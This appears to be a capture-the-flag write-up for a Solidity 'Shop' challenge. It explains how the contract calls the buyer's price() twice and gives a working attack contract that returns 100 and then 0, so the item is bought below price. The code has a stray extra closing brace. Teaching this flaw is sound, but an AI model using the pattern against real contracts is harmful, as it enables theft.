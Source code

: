 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
The contract, `Shop`, allows an external contract implementing the `Buyer` interface to buy an item if the buyer's price meets or exceeds the item's price and the item is not already sold.

- **`price`**: Initial price set to 100.
- **`isSold`**: Tracks if the item is sold.
- **`buy()` function**: Checks if the buyer's `price()` (from the external `Buyer` contract) is equal to or higher than the current price and if the item is not sold. If true, the item is marked as sold, and the price is updated to the buyer's price.

The contract is intended for interaction with a `Buyer` contract that returns a price.

Let me explain the condition again

```sol
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
```
For the first condition to evaluate as true, the initial call to the `price()` function must return a value greater than or equal to the current `price`. Afterward, the function is called again within the block, and the `price` is updated accordingly.

So summary of what we need to do is 

1. set `isSold` to true
2. set `price` < 100

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
Explainint this attack contract

- **`buyer`**: An instance of the `Shop` contract, passed in during deployment.
- **`buy()`**: Calls the `buy()` function in the `Shop` contract.
- **`price()`**: Overrides the `price()` function from the `Buyer` interface. It returns `100` before the item is sold and `0` after the item is sold. This allows it to pass the condition to buy the item by pretending to match the price (100), then once `isSold` is true, it returns `0` to finalize the transaction at a lower price.


We can compile this using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the if conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























